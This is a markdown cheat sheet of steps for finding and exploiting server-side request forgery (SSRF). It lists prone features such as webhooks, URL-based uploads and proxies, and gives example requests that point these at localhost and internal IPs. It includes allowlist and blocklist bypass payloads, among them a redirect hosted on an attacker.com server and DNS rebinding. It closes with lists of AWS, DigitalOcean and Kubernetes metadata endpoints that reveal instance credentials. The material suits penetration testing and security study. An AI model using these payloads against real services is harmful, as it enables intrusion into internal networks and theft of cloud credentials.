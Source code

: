## Step 1: Spot Features Prone to SSRFs
webhooks, file uploads, document and image processors, link expansions or thumbnails, and proxy services
webhooks are a way of notifying the system to kick-start another process
#### Take note of every potential endpoints:

Add a new webhook:
```md
POST /webhook
Host: public.example.com

(POST request body)
url=https://www.attacker.com
```

File upload via URL:
```md
POST /upload_profile_from_url
Host: public.example.com

(POST request body)
user_id=1234&url=https://www.attacker.com/profile.jpeg
```

Proxy service: 
`https://public.example.com/proxy?url=https://google.com`
## Step 2: Provide Potentially Vulnerable Endpoints with Internal URLs
- try (localhost, 127.0.0.1, 0.0.0.0, 192.168.0.1, and 10.0.0.1), https://en.wikipedia.org/wiki/Reserved_IP_addresses.
Examples: 
- `https://public.example.com/proxy?url=https://192.168.0.1`

We can trick the server into visiting its own port 22 and returning information about itself. Then look for text like this in the response (in case it's a regular SSRF not Blind): `Error: cannot upload image: SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4 ` :

```md
POST /upload_profile_from_url
Host: public.example.com

(POST request body)
user_id=1234&url=127.0.0.1:22
```
# Testing
- Spot the features prone to SSRFs and take notes for future reference
- use https://app.interactsh.com/#/ for blind SSRF
- **Allow list?**
	-  Try find open redirect in the allowed subdomains `user_id=1234&url=https://pics.example.com/123?redirect=127.0.0.1`
	- **Bypassing wildcard allowlisted subdomain regex**
		- (`pics.example.com` is seen as the username portion of the URL): `user_id=1234&url=https://pics.example.com@127.0.0.1`
		- pics.example.com is seen as the directory portion of the URL:
		  `user_id=1234&url=https://127.0.0.1/pics.example.com`
- **Blocklist?**
	- on your server at` https://attacker.com/ssrf` host file content:`<?php header("location: http://127.0.0.1"); ?>` and then access the file from the parameter:
	 ` https://public.example.com/proxy?url=https://attacker.com/ssrf`
- **IPv6**
	- try payloads as much as u can (fc00:: / ::1) and other IP representations
- Change your domain DNS `A/AAAA` records so that it points to 127.0.0.1 and then : `https://public.example.com/proxy?url=https://attacker.com`
- try different encoding like (Hex, Octal, dword, URL) and combination of it
- Perform Network Scanning `user_id=1234&url=https://10.0.0.2`
- Querying EC2 Metadata `https://public.example.com/proxy?url=http://169.254.169.254/latest/meta-data/`
# Escalating the Attack and Use Cases

- Perform Network Scanning
### Querying Metadata for Cloud Providers

#### EC2 (AWS)
These endpoints reveal information such as API keys, Amazon S3 tokens (tokens used to access Amazon S3 buckets), and passwords. Try requesting these especially useful API endpoints:
- `http://169.254.169.254/latest/meta-data/` returns the list of available metadata that you can query.
- `http://169.254.169.254/latest/meta-data/local-hostname/` returns the internal hostname used by the host.
- `http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME` returns the security credentials of that role.
- `http://169.254.169.254/latest/dynamic/instance-identity/document/` reveals the private IP address of the current instance.
- `http://169.254.169.254/latest/user-data/` returns user data on the current instance.

#### DigitalOcean 
you can retrieve a list of metadata endpoints by visiting the http://169.254.169.254/metadata/v1/ endpoint.

retrieve key pieces of information such as the instance’s hostname and user data. For Kubernetes, try accessing 
https://kubernetes.default and https://kubernetes.default.svc/metrics for information about the system.
